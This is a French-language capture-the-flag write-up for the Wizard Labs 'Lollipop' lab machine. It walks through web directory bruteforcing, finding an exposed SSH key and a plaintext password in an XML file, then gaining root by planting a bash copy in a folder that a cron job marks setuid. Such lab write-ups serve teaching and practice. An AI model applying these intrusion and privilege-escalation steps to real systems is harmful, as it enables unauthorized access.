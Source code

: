 # Solution du CTF Lollipop de Wizard Labs

Lollipopshell
-------------

Pour arriver à la fin de ce CTF de *Wizard Labs* il aura fallut utiliser de bonnes wordlist et enumérer les fichiers et dossier sur le serveur web.  

Pour cela j'ai porté mon dévolu sur [les listes raft de fuzzdb](https://github.com/fuzzdb-project/fuzzdb/tree/master/discovery/predictable-filepaths/filename-dirname-bruteforce).  

On trouve ainsi un dossier caché *.ssh* avec la clé qui va avec :  

```plain
/index.html (Status: 200)
/mail.php (Status: 200)
/function.php (Status: 200)
/.ssh (Status: 301)
```

Et dans les scripts on découvre aussi un script *checker.php* qui demande à recevoir le résultat de 6\*6.  

Si on rentre un résultat non numérique on obtient une erreur 500 (page type d'Apache) avec un mail d'administration *mrl0llipop@localhost*.  

Je tiens à préciser que malgré tous mes efforts ce script ne semble pas vulnérable à la moindre injection.  

La clé SSH est malheureusement protégée par une passphrase. On est alors tenté d'utiliser l'utilitaire *ssh2john* pour tenter de la retrouver :  

```plain
$ /usr/share/john/ssh2john.py id_rsa 
id_rsa:$sshng$1$16$0AF431720D358A422BF9C1D77BDF72DF$1200$f5dce6fe7--- snip ---16ec902cb75a90ab0
```

Malheureusement cela n'aboutit nul part.  

En fouillant un peu plus on trouve le commentaire suivant en commentaire dans la page d'index :  

```html
<!--Todo : store passwords using a better way than xml files  -->
```

On bruteforce alors les extensions .xml et on trouve le fichier *passwords.xml* suivant :  

```html
<text><password>:3:!4]AFCH:3#D[%</password></text>
```

Tous ces éléments réunis nous permettent un accès SSH sur la machine en tant que *mrl0llipop*.  

En fouillant les binaires setuid du système je remarque un dossier où les binaires semblent *upgradés* (notez le *s* dans les permissions) à intervalle régulier :D   

```plain
mrl0llipop@Lollip0p:/suided_binaries$ ls -l
total 184
-rwxrwxrwx 1 root root  44304 Jan  6 09:26 mount
-rwxrwxrwx 1 root root 140944 Jan  6 09:25 sudo
mrl0llipop@Lollip0p:/suided_binaries$ ls -l
total 184
-rwsrwxrwx 1 root root  44304 Jan  6 09:26 mount
-rwsrwxrwx 1 root root 140944 Jan  6 09:25 sudo
```

Moi aussi je veux jouer, on va juste copier un *bash* dans ce dossier :  

```plain
mrl0llipop@Lollip0p:/suided_binaries$ ls -l
total 204
-rwsrwxrwx 1 root root  16664 Jan  8 02:20 devloop
-rwsrwxrwx 1 root root  44304 Jan  6 09:26 mount
-rwsrwxrwx 1 root root 140944 Jan  6 09:25 sudo
mrl0llipop@Lollip0p:/suided_binaries$ ./devloop
root@Lollip0p:/suided_binaries# cd /root
root@Lollip0p:/root# cat root.txt
030bd309b88360dc270d8760a212fb0b
root@Lollip0p:/root# crontab -l
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
* * * * * chown -R root.root /suided_binaries
* * * * * chmod -R 4777 /suided_binaries
```

Le plus dur aura été l'énumération :p

*Published November 17 2020 at 14 12*